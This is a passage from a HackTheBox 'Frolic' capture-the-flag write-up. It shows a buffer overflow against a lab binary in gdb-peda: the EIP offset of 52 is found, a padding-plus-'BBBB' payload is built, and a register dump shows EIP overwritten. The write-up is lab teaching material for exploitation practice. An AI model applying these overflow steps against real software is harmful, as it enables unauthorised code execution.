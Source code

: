 ```
0x41474141 in ?? ()
gdb-peda$ 
```

> **EIP:** 0x41474141 ('AAGA')

Once we have the EIP we will search the offset value with the pattern:

```
gdb-peda$ pattern_offset 0x41474141
1095188801 found at offset: 52
```

> **Offset:** 52


* **Check results**

Now run the binary with a randomized offset and a controlled EIP like 'BBBB'.

```
❯ python3 -c 'print("A"*52 + 'BBBB')'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

And finally run the binary with the payload

```
gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Starting program: /home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x38 ('8')
EBX: 0xffffcd50 --> 0x2 
ECX: 0x0 
EDX: 0x0 
ESI: 0xf7faa000 --> 0x1e4d6c 
EDI: 0xf7faa000 --> 0x1e4d6c 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffcd20 --> 0xffffd000 ("ared/ctf/HackTheBox/Frolic/content/rop")
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xffffd000 ("ared/ctf/HackTheBox/Frolic/content/rop")
0004| 0xffffcd24 --> 0xffffcdf4 --> 0xffffcfea ("/home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop")
0008| 0xffffcd28 --> 0xffffce00 --> 0xffffd060 ("COLORFGBG=15;0")
0012| 0xffffcd2c --> 0x8048561 (<__libc_csu_init+33>:   lea    eax,[ebx-0xf8])
0016| 0xffffcd30 --> 0xffffcd50 --> 0x2 
0020| 0xffffcd34 --> 0x0 
0024| 0xffffcd38 --> 0x0 
0028| 0xffffcd3c --> 0xf7de3e46 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```
